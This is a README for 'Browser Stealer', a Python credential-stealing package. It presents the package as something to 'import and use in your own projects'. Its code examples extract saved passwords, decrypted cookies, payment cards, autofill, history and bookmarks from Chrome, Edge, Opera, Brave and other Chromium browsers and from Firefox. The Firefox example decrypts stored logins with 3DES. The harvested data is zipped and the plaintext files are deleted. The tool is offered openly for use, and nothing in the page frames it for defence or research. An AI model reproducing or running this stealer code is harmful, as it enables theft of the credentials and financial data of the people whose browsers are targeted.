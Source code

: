<h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v2.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

##### Chromium

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer, os


def MyBrowser():
    browser_stealer.fetch_passwords(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Login Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.decrypt_fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"))
    browser_stealer.fetch_history(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_downloads(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_bookmarks(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Bookmarks"))
    browser_stealer.fetch_payment(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_autofill(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"))

    browser_stealer.Utils().zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.Utils().delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

##### Firefox

```py
import os
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad
import browser_stealer


def firefox():
    utils = browser_stealer.Utils()
    profiles = browser_stealer.FirefoxUtils(os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox\profiles.ini")).fetch_profiles()


    for profile in profiles[0]:
        profile_path = os.path.join(os.environ["USERPROFILE"], r"AppData\Roaming\Mozilla\Firefox", profile[2])
        path = profile_path if profile[1] else profile[2]

        b_st = browser_stealer.Firefox(path)

        key = b_st.get_key()
        algo = b_st.get_algo()
        
        ff_data = browser_stealer.FirefoxData(path)

        login_data = ff_data.fetch_passwords()
        cookies = ff_data.fetch_cookies()
        history = ff_data.fetch_history()
        autofill = ff_data.fetch_autofill()
        bookmarks = ff_data.fetch_bookmarks()
        downloads = ff_data.fetch_downloads()
        
        for cookie in cookies:
            #name, value, host, path, isSecure, isHttpOnly, expiry, lastAccessed, creationTime
            txt = f"\nName: {cookie[0]}\nValue: {cookie[1]}\nHost: {cookie[2]}\nPath: {cookie[3]}\nIs Secure: {cookie[4]}\nIs http only: {cookie[5]}\nExpiry: {cookie[6]}\nLast accessed: {cookie[7]}\nCreation time: {cookie[8]}\n"
            utils.store_data(file="cookies.txt", data=txt)

        for visited in history:
            #url, title, visit_count, last_visit_date
            txt = f"\nURL: {visited[0]}\nTitle: {visited[1]}\nVisit count: {visited[2]}\nLast visit: {visited[3]}\n"
            utils.store_data(file="history.txt", data=txt)

        for instance in autofill:
            #fieldname, value, timesUsed, firstUsed, lastUsed
            txt = f"\nFieldname: {instance[0]}\nValue: {instance[1]}\nTimes used: {instance[2]}\nFirst used: {instance[3]}\nLast used: {instance[4]}\n"
            utils.store_data(file="autofill.txt", data=txt)

        for bookmark in bookmarks:
            #title, dateAdded, lastModified
            txt = f"\nTitle: {bookmark[0]}\nDate Added: {bookmark[1]}\nLast modified: {bookmark[2]}\n"
            utils.store_data(file="bookmarks.txt", data=txt)

        for download in downloads:
            #path, metadata, dateAdded
            txt = f"\nPath: {download[0]}\nMetadata: {download[1]}\nDate downloaded: {download[2]}\n"
            utils.store_data(file="downloads.txt", data=txt)

        key = b_st.get_key()
        algo = b_st.get_algo()
        login_data = ff_data.fetch_passwords()
    

        if algo != "1.2.840.113549.1.12.5.1.3" and algo != "1.2.840.113549.1.5.13":
            return
        
        for login in login_data:
            data = ""

            data += f"\nURL: {login[2]}"

            iv = login[0][1]
            cipher_text = login[0][2] 
            username = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nUsername: {username}"

            iv = login[1][1]
            cipher_text = login[1][2] 
            password = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(cipher_text), 8).decode()
            data += f"\nPassword: {password}"

            data += f"\nTimes Used: {login[5]}"

            utils.store_data(file=f"passwords.txt", data=f"{data}\n")


        utils.store_data(file=f"passwords.txt", data=f"\nKEY: {key}\nALGO: {algo}\n")
        files = ["passwords.txt", "cookies.txt", "history.txt", "bookmarks.txt", "autofill.txt", "downloads.txt"]
        utils.zip("Firefox.zip", files)
        utils.delete_files(files)

firefox()
```

Here we have an function that you could modify for your own firefox fork...

```py
import browser_stealer

browser_stealer.firefox_steal()
```

This is how to achieve the same thing but in only two lines...

## [Video Tutorial](https://youtube.com) (comming soon)

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!

